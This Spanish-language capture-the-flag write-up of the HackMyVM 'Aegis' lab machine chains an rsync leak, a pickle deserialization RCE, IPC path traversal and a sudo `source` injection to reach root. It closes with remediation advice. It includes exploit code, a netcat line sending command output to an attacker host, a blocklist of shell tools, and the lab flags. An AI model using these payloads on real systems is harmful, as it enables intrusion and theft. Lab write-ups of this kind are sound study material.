

[Inicio](../../../README.md) · [Red Team](../../README.md)

**Estado: completada hasta root** · [🌐 Abrir writeup visual](https://w4ltersec.github.io/cybersecurity-labs/red-team/hackmyvm/aegis/Aegis-Writeup.html)

# Aegis — HackMyVM — Writeup completo

> **Plataforma:** HackMyVM · **Sistema:** Linux / Ubuntu · **Dificultad:** Media
> **Objetivo:** flag de usuario + flag de root · **Target de laboratorio:** `192.168.1.25`
> **Cadena:** `operator → adrian → root`

## 0. Resumen ejecutivo

| Fase | Técnica | Resultado |
| --- | --- | --- |
| Fuga de información | rsync anónimo y secreto HMAC en el histórico de Git | Clave para firmar paquetes AegisProto |
| Acceso inicial | Deserialización insegura de objetos pickle con HMAC válido | `operator` |
| Escalada #1 | Path traversal en el socket IPC de NetMon | `adrian` |
| Escalada #2 | Configuración interpretada mediante `source` en `aegis-backup` con sudo | `root` |

**Flags**

- **User:** `HMV{14e1fbea8f8a571b7dff473d102521dd}`
- **Root:** `HMV{ca323257ea9f900f5e38fefa0ccabcd6}`



*Confirmación de la máquina completada en HackMyVM.*

[🔗 Abrir la máquina Aegis en HackMyVM](https://hackmyvm.eu/machine/Aegis)

---

## 1. Reconocimiento

Host vivo (TTL 64 → Linux). Tres servicios; rsync y el daemon propietario son los interesantes.

**nmap**

```bash
$ nmap -p- --min-rate 3000 -T4 -Pn 192.168.1.25
22/tcp    open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.6
873/tcp   open  rsync   (protocol version 32)
65432/tcp open  unknown
|  AEGIS CORE TELEMETRY NODE — AegisProto/2.4 (HMAC-SHA256)
```

## 2. Fuga de info · rsync anónimo High

El módulo `backup` es accesible sin credenciales y trae el cliente con su repo `.git`.

**rsync + git**

```bash
$ rsync --list-only rsync://192.168.1.25/
backup   Aegis Core Deployment and Client Utilities

$ rsync -av rsync://192.168.1.25/backup/ loot/
README.txt   aegis-client-v2.1.tar.gz

$ git log --oneline --all
b56146a Security: remove hardcoded HMAC secret key   # ← demasiado tarde
6db9a8e Initial release

$ git show b56146a
- HMAC_SECRET = b"Aeg1s-C0r3-P4ck3t-S1gn-2026!"
+ HMAC_SECRET = os.environ.get("AEGIS_SECRET_KEY","").encode()
```

### 🔑 Material recuperado

Clave HMAC: `Aeg1s-C0r3-P4ck3t-S1gn-2026!` · El cliente revela `import pickle` y el formato de trama `[4B len][32B HMAC-SHA256][pickle]`.

## 3. RCE · deserialización pickle Critical

El daemon verifica el HMAC y luego hace `pickle.loads()`. Con la clave, un objeto con `__reduce__` ejecuta comandos al deserializarse.

**aegis_rce.py**

```python
class RCE:
    def __reduce__(self):
        return (os.system, (cmd,))

payload = pickle.dumps(RCE())
sig     = hmac.new(HMAC_SECRET, payload, sha256).digest()
packet  = struct.pack("!I", len(payload)) + sig + payload  # HMAC válido ⇒ deserializa
```

**proof**

```bash
$ python3 aegis_rce.py 192.168.1.25 65432 'id | nc -w3 192.168.1.30 4445'
[+] Authentication successful. Deserializing command packet...
uid=1001(operator) gid=37(operator) groups=37(operator)
```

→ Ejecución de código como **operator**. Su README apunta al socket `/run/netmon/netmon.sock`.

## 4. operator → adrian · path traversal IPC Critical

El servicio NetMon corre como **adrian**, acepta `RUN <script>` y valida la ruta con `startswith("/opt/scripts/")` — evadible con `../`.

**netmon_service.py — el fallo**

```python
if not script_path.startswith(ALLOWED_DIR):   # no resuelve la ruta real
    deny()
subprocess.run(["/bin/bash", script_path])       # corre como adrian
```

**explotación**

```bash
# payload en /dev/shm (escribible por operator), traversal por el socket:
RUN /opt/scripts/../../dev/shm/.m.sh
[*] Executing ... under UID 1002...
uid=1002(adrian) groups=1002(adrian),37(operator)
HMV{14e1fbea8f8a571b7dff473d102521dd}  # 🏁 user.txt
```

## 5. adrian → root · inyección vía `source` Critical

`adrian` tiene `sudo NOPASSWD` sobre `aegis-backup`, que hace `source` de la config tras una lista negra de palabras trivialmente evitable.

**aegis-backup — el fallo**

```bash
FORBIDDEN='(bash|sh|nc|python|perl|eval|exec|sudo|chmod|chown|rm|mkfifo)'
grep -qE "$FORBIDDEN" "$CONFIG" && exit 1
source "$CONFIG"                 # ejecuta bash arbitrario como root
```

**config que pasa el filtro → root**

```bash
id
cat /root/root.txt
TARGET_DIR=/tmp
OUTPUT_FILE=/dev/null   # ojo: evitar "sh" → nada de /dev/shm en el config

$ sudo /usr/local/bin/aegis-backup -c /tmp/.cfg
uid=0(root) gid=0(root) groups=0(root)
HMV{ca323257ea9f900f5e38fefa0ccabcd6}  # 👑 root.txt
```

## ★ Cadena de ataque

#### rsync anónimo · public

Módulo `backup` → repo `.git` → clave HMAC hardcodeada.

#### pickle RCE (65432) → operator

Objeto firmado con la clave; `__reduce__` → `os.system`.

#### path traversal IPC → adrian · 🏁 user

`startswith` evadido con `../` en el socket NetMon.

#### sudo source-injection → root · 👑 root

Lista negra de palabras evitable en el config que se hace `source`.

## ✓ Remediación

- **rsync:** deshabilitar módulos anónimos (`auth users`, `hosts allow`) y no empaquetar `.git`. **Rotar** la clave HMAC: sigue viva en el histórico.

- **pickle:** no deserializar datos de red con `pickle`; usar JSON/MessagePack. El HMAC autentica, pero no frena un payload malicioso correctamente firmado.

- **Socket IPC:** validar con `os.path.realpath()` + `commonpath`, o mejor allow-list de nombres — nunca comparación de prefijo.

- **sudo/backup:** nunca hacer `source` de ficheros controlables; parsear `clave=valor` con un lector estricto. Las listas negras de palabras no son una frontera de seguridad.

---

*Pentest autorizado en una máquina de laboratorio de HackMyVM. Writeup basado en el HTML original proporcionado.*
